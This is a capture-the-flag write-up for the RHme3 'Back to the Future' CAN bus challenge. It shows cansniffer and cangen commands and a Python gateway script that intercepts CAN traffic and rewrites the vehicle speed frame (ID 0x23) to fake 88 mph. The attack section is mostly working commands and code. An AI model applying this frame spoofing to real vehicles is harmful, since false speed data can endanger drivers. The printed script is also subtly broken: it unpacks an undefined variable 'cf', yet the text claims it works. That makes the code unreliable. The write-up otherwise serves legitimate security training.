


# [Back to the Future](https://rhme.riscure.com/3/challenge?id=14)

Controller Area Network - 250pts

## Challenge text

Our intelligence suggests that the DeLorean we previously recovered is capable of time travel.
According to the documents in our possession the time travel functionality is activated as soon as a specific ECU within the vehicle maintains a velocity of exactly 88 miles per hour for at least a few seconds. We rely on your CAN bus expertise to trick the time-travel ECU into thinking it is travelling at the right speed; again, the vehicle dashboard we restored should be of use.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge involves identifying and rewriting CAN packets that indicate speed.  A CAN bridge will be needed to ensure that all packets are intercepted and rewritten.

### Preparation

If you haven't done so already, prepare your boards for working with CAN using these guides:
* [RHme3 board analysis and preparation](../Preparation/RHme3_board_analysis.md)
* [Beaglebone Black CAN setup](../Preparation/BBB_CAN_setup.md)

Make the following connections:
* For now, connect the two ECUs on the RHme3 board using jumpers.  We'll remove these later to separate the two channels.
* Connect one of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that the second data byte of CAN ID 23 seems to follow the movement of the dashboard speedometer.  In this case, 0x24 is 36 mph.

	$cansniffer -c can0
	23  00 24 08 02 20

Let's attempt to rewrite this as 88 mph (0x58) and feed it back using cangen:

	$ cangen -I 23 -L 5 -D 0058080220 -g 10 -x can0

This brings the speed up to 88 mph on the dashboard, but packets indicating lower speeds keep bringing it back down into the 30s of mph.  This confirms that we're using the right CAN ID and byte, but we need to do something about the lower speed packets that keep the indicated speed from being consistent.

Hypothesis: The two ECUs on the RHme3 board are acting as independant devices that are communicating with each other.  Maybe we can wedge a gateway between them, and use the gateway to intercept and rewrite any packets with CAN ID 23.

Make the following connections:
* Disconnect the two ECUs on the RHme3 board by removing the jumpers.
* Connect both of the CAN transcievers on the Beaglebone Black to the RHme3 ECUs using twisted pair wiring.  The connections should create two independant CAN buses: can0 on the Beaglebone Black connected to channel 1 on the RHme3 board, and can1 connected to channel 2.

With the two channels separated from each other, traffic goes quiet.  With the use of candump, temporarily jumpering the two channels to create bursts of traffic, and monitoring each channel individually, the originating channel of CAN ID 23 can be determined as channel 1.

	$ candump -L can0
	$ candump -L can1

### Attack

The following Python3 script can be run on the BBB to pass all traffic from channel 1 to channel 2, and rewrite all packets with CAN ID 23 for 88 mph.

	#!/usr/bin/python3

	import socket
	import struct
	import sys

	s_in = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_out = socket.socket(socket.AF_CAN, socket.SOCK_RAW, socket.CAN_RAW)
	s_in.bind((sys.argv[1],))
	s_out.bind((sys.argv[2],))

	while True:
		# Get a packet
		frame,addr = s_in.recvfrom(16)
		id,dlc,data = struct.unpack("=IB3x8s",cf)
		data = bytearray(data[:dlc])

		# If the packet is ID 0x23, rewrite the speed byte
		if (id == 0x23):
			data[1] = 0x58
			frame = struct.pack("=IB3x8s",0x23,dlc,data)

		# Send it to the other ECU channel
		try:
			s_out.send(frame)
		except socket.error:
			print('Error sending CAN frame')

Run the script as follows:

	$ python3 can-gate.py can0 can1

This pegs the dashboard at 88 mph and displays the flag.

